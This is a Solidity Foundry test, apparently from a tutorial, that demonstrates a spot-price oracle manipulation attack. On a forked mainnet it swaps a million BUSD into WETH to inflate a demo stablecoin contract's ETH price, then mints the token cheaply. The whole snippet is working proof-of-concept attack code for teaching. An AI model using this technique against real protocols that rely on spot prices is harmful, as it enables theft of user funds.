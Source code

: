 ```solidity
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // 给自己账户 1000000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```
